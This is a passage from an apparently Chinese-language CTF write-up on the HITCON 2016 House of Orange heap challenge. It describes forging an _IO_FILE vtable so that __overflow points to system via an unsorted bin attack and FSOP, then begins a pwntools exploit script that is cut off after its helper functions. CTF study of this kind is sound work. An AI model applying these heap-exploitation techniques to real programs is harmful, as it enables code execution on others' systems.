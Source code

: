 ​    而这时就到了我们伪造的_IO_FILE处，我们已经把伪造的IO_FILE结构体的vtable表中偏移为3出的__overflow函数已经被篡改为system了。

 ![image-20211226165837432](/images/heap/image-20211226165837432.png)

​    这些unsorted bin attack和FSOP的操作都是在最后执行malloc(0x10)的时候完成的。

​    至此整个调试过程分析完毕。

### 完整exp

 ```python
 from pwn import *
 
 context.log_level = 'debug'
 binary = './houseoforange_hitcon_2016'
 elf = ELF(binary)
 libc = elf.libc
 local = 1
 if local:
  p = process(binary)
 else:
  p = remote('')
 
 def add(length, name, price, color):
  p.sendlineafter(': ', '1')
  p.sendlineafter(':', str(length))
  p.sendafter(':', name)
  p.sendlineafter(':', str(price))
  p.sendlineafter(':', str(color))
 
 def show():
  p.sendlineafter(': ', '2')
 ```